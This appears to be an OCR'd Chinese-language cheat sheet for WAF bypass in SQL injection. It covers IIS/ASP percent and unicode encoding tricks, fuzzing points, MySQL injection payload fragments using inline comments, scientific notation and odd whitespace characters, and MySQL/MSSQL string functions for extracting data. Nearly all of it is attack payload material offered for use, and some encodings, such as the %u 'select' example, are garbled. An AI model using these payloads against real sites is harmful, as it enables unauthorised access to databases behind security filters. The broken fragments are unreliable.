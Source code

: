 `WAF类型`

`根据WEB应用程序特性进行Waf绕过`
    
Web应用层
    
web容器层
    % 绕过   asp+iis   即s%elect
    
    %u 特性  asp（x）+ iis   select=s%u006c%u0006ect
    
    apache
    除了使用以上Web容器的特性绕过还可以手工Fuzz Waf
    具体Fuazz如下:
    get请求处 
    header请求处 
    post urlencode内容处 
    post form-data内容处
    
数据库交互层
        
        \Nunion的形式 userid=\Nunion select 
        
        浮点数的形式如1.1,8.0  userid=1.1union select
        
        8e0的形式 userid=8e0union select
        
        利用/*!50000*/的形式 userid=1 un/*!*/ion /*!50000select*/
        
        Mysql中可以利用的空白字符有:%09,%0a,%0b,%0c,%0d,%a0；
        Mssql中可以利用的空白字符有:01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20 
        字符串截取函数 
        Mid(version(),1,1)
        Substr(version(),1,1)
        Substring(version(),1,1)
        Lpad(version(),1,1)
        Rpad(version(),1,1)
        Left(version(),1)
        reverse(right(reverse(version()),1)
        字符串连接函数
        concat(version(),'|',user());
        concat_ws('|',1,2,3)
        字符串转换
        Char(49)
        Hex(‘a’)
        Unhex(61)
   MSSQL
        
        可以使用内联注释/**/    
        :号 and:substring()
        %2b号 and%2b
        字符串截取函数
        Substring(@@version,1,1)
        Left(@@version,1)
        Right(@@version,1)
        字符串转换函数
        Ascii(‘a’) 这里的函数可以在括号之间添加空格的，一些waf过滤不严会导致bypass
        Char(‘97’)
        
